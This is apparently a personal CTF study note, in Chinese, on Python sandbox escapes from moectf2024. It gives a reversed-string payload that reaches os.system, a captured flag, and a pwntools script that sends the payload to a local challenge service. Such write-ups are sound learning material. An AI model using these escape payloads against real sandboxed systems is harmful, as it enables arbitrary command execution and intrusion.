

---
tags:
  - notes
comments: true
dg-publish: true
---

> [!PREREQUISITE]
>
> 准备练练 python jail ，准备资料如下：

> - [Tr0y's Blog](https://www.tr0y.wang/)
>     - [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/)
>     - [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
>     - [Unicode 的使用](https://www.tr0y.wang/2020/08/18/IDN/#%E5%88%A9%E7%94%A8%E5%9C%BA%E6%99%AF)
> - [nssctf](https://www.nssctf.cn/problem) (搜 jail 即可)
>     - [一个简单的题解](https://www.aiwin.fun/index.php/archives/3992/)
> - [github-autojail](https://github.com/martcl/autojail)
> - [moectf2024 题目链接](https://ctf.xidian.edu.cn/games/10/challenges?challenge=95)

## moectf2024

### moejail_lv1

根据要求拼接字符串后允许我们注入 payload，简单尝试后发现 `__import__('so'[::-1]).system('ls')` 是可行的，将 `ls` 换为需要执行的语句即可。

根据提示，在 `/tmp/` 下，[注意使用 `ls -a` 显示全部](attachments/pyjail.png)，之后想要查看文件，但是因为文件名导致命令太长了，使用 `*` 进行匹配即可：



> [!FLAG]
>
> moectf{Ah_HA-nOW-Y0u_KNoW_H0w_T0_EsCApE-SIMpL3_5trlng_fILter0}

### moejail_lv2

后面的系列题交互是类似的，故使用 python 交互吧：

```python title="moejail.py"
from pwn import *
import re

# 启用debug模式
context.log_level = "debug"

# 建立连接
conn = remote("127.0.0.1", 51371, timeout=1)

# 接收欢迎信息
welcome_msg = conn.recvuntil(b"to continue:").decode()
# print(welcome_msg)

# 使用正则表达式匹配需要拼接的字符串
match = re.search(r"Please enter '(\w+)'\+'(\w+)'=\? to continue:", welcome_msg)
if match:
    str1, str2 = match.groups()
    answer = str1 + str2 + "\n"
    conn.send(answer.encode())
else:
    print("Failed to match the required strings")
    conn.close()
    exit(1)

print(conn.recvline().decode())

command = "__import__('so'[::-1]).system('ls')"

print(command)
conn.sendline(command.encode())

# 接收并打印所有输出
print(conn.recvall().decode())

# 关闭连接
conn.close()
```

我们只需要修改 command 即可。

### readme

偶遇一个提示？(attachments/MISC.png)
